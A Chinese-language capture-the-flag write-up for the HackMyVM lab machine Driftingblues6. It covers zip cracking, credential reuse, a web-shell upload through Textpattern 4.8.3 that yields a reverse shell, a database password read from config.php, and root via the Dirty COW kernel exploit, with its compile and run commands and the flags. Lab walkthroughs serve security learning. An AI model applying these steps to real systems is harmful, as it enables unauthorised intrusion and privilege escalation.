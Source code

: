 # Driftingblues6

2024-11-10 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues6

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只开放了一个 web 端口，查看其首页，显示一张图片，查看 html 源码，底部有注释：

```
please hack vvmlist.github.io instead
he and their army always hacking us -->
```

http://192.168.5.39/robots.txt 中有提示：

```
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

在 gobuster 中添加 zip 后缀，扫描出一个 zip 路径 http://192.168.5.39/spammer.zip 使用 john 进行破解，密码为 myspace4 进行解压，其内容为：

```
mayer:lionheart
```

在访问上面 robots.txt 中禁止的路径 http://192.168.5.39/textpattern/textpattern/ 使用上面的凭据进行登陆，登陆成功。

显示的是一个 Textpattern CMS v4.8.3 的 CMS，经过搜索，存在任意文件上传漏洞，可以上传 php 从而实现 RCE，在顶部菜单 Contents -> Files 中上传 web shell，然后访问：

```
curl http://192.168.5.39/textpattern/files/8888.php
```

就获得了反弹的 shell。

发现 CMS 数据库的配置文件：

```
www-data@driftingblues:/var/www/textpattern/textpattern$ cat config.php
<?php
$txpcfg['db'] = 'textpattern_db';
$txpcfg['user'] = 'drifter';
$txpcfg['pass'] = 'imjustdrifting31';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
```

密码也不是 root 用户的密码。

lin peas 也没有枚举出其他路径，最后只能尝试内核提权：https://www.exploit-db.com/download/40847

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```

在 /root 目录下获得了 user flag 和 root flag：

```
root@driftingblues:~# cd /root
root@driftingblues:~# ls
root.txt  user.txt
root@driftingblues:~# cat user.txt
5355B03AF00225CFB210AE9CA8931E51
root@driftingblues:~# cat root.txt
CCAD89B795EE7BCF7BBAD5A46F40F488
```
